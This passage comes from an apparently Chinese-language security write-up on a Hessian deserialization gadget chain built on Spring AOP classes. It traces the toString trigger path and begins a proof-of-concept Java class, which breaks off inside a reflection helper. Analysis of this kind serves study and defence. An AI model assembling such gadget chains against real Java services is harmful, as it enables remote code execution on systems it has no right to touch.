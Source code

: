 - 接着跟进`UtilFactory#makeToStringTriggerUnstable`, 继续会调用`ToStringUtil#makeToStringTrigger`方法. 然后会调用到`JDKUtil#makeMap`方法, 这里与`RomeGadget`后面的分析一样了.

```java
Object makeToStringTriggerUnstable ( Object obj ) throws Exception;


default Object makeToStringTriggerStable ( Object obj ) throws Exception {
    return ToStringUtil.makeToStringTrigger(obj);
}
```

```java
public static Object makeToStringTrigger ( Object o, Function<Object, Object> wrap ) throws Exception {
    String unhash = unhash(o.hashCode());
    XString xString = new XString(unhash);
    return JDKUtil.makeMap(wrap.apply(o), wrap.apply(xString));
}
```

### POC
在`POC`中的序列化部分多出来了几行代码, 这是因为, 一般对于对象的序列化, 如果对象对应的`class`没有对`java.io.Serializable`进行实现`implement`的话, 是没办法序列化的, 所以这里对输出流进行了设置, 使其可以输出没有实现`java.io.Serializable`接口的对象.
```java
package org.h3rmesk1t.Hessian;

import com.caucho.hessian.io.*;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.apache.commons.logging.impl.NoOpLog;
import org.springframework.aop.aspectj.AbstractAspectJAdvice;
import org.springframework.aop.aspectj.AspectInstanceFactory;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJPointcutAdvisor;
import org.springframework.aop.aspectj.annotation.BeanFactoryAspectInstanceFactory;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.jndi.support.SimpleJndiBeanFactory;
import sun.reflect.ReflectionFactory;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/11 6:26 下午
 */
public class SpringPartiallyComparableAdvisorHolderGadget {

    public static Field getField ( final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
```